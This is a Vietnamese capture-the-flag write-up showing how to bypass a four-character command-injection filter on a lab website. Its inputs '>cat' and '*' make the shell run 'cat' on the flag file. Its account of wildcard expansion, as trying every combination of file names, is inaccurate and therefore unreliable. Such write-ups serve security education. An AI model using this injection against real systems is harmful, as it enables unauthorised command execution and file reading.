


# Command Injection

**Tên challenge:** Command Limit Length

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/command-limit-length)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Trang Web cho phép người quản trị thực thi lệnh hệ thống để giám sát từ xa. Tuy nhiên để đảm bảo cho hệ thống an toàn, lập trình viên đã chặn rất nhiều tập lệnh và độ dài của chuỗi nhập vào cũng bị giới hạn. Quả thật, không ai có thể vượt qua cơ chế bảo mật này!

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng nhập Command như sau:


**B2:** Ta thử nhập `id`:



**B3:** Ta thử nhập lệnh `whoami` thì phát hiện trang Web chỉ cho nhập tối đa 4 ký tự:


**B4:** Ta tiếp tục nhập lệnh `ls` thì phát hiện trang Web đã filter lệnh `ls`:


**B5:** Trong Linux thì ngoài lệnh `ls` thì ta vẫn có thể dùng lệnh `dir` như trên Windows để view file:


Do Website chỉ cho phép nhập tối đa 4 ký tự nên ta không thể dùng lệnh `cat *` để đọc `Flag` được.

Sau khi tìm hiểu thì ta tìm được cách Bypass Challenge này.

Cụ thể, ta tiến hành thí nghiệm sau trong Linux, giả sử ta có 1 folder rỗng như sau:
```
$> ls -la
total 11
drwxr-xr-x 2 root root 4096 Nov 25 09:13 .
drwxr-xr-x 9 root root 4096 Nov 25 09:09 ..
```
Sau đó, ta sẽ tạo 1 file `test.txt` có nội dung là `hello`
```
$> ls -la
total 12
drwxr-xr-x 2 root root 4096 Nov 25 09:13 .
drwxr-xr-x 9 root root 4096 Nov 25 09:09 ..
-rw-r--r-- 1 root root    5 Nov 25 09:10 test.txt

$> cat test.txt
hello
```
Tiếp đến, ta sẽ thử tạo 1 file có tên là `cat` với nội dung là rỗng thông qua lệnh:
```
$> >cat

$> ls -la
total 13
drwxr-xr-x 2 root root 4096 Nov 25 09:13 .
drwxr-xr-x 9 root root 4096 Nov 25 09:09 ..
-rw-r--r-- 1 root root    0 Nov 25 09:34 cat
-rw-r--r-- 1 root root    5 Nov 25 09:10 test.txt
```
Cuối cùng, ta sẽ thử sự kỳ diệu của dấu `Wildcard` ( `*` ):
```
$> *
hello
```

**Giải thích:**
* Khi ta nhập dấu `*` trong Linux thì bạn hãy tưởng tượng nó sẽ lấy tất cả các file đưa vào chung 1 mảng ( **VD:** `[cat, flag.txt, abc.txt]` ).
* Sau đó, Linux sẽ ghép tất cả các file vào với nhau. ( **VD:** `cat flag.txt`, `cat abc.txt`, `flag.txt cat`, `flag.txt abc.txt`, `abc.txt cat`, `abc.txt flag.txt`, `cat flag.txt abc.txt`, ... ), thì điểm ta muốn lợi dụng ở đây là lệnh `cat flag.txt`, thì khi nó thực thi lệnh này thì nó sẽ trả về kết quả file `flag.txt` cho ta.

**B6:** Ta bắt đầu làm giống như thí nghiệm trên, đầu tiên ta tạo file `cat` thông qua lệnh `>cat`:


Dù lệnh là `COMMAND NOT FOUND` nhưng khi ta dùng lệnh `dir`:


=> Ta đã tạo thành công được file `cat`

**B7:** Ta bắt đầu nhập dấu `*` vào input:



=> Vậy là ta đã thành công đọc được `Flag`.

<u>**Đọc thêm:**</u> https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#rce-with-4-chars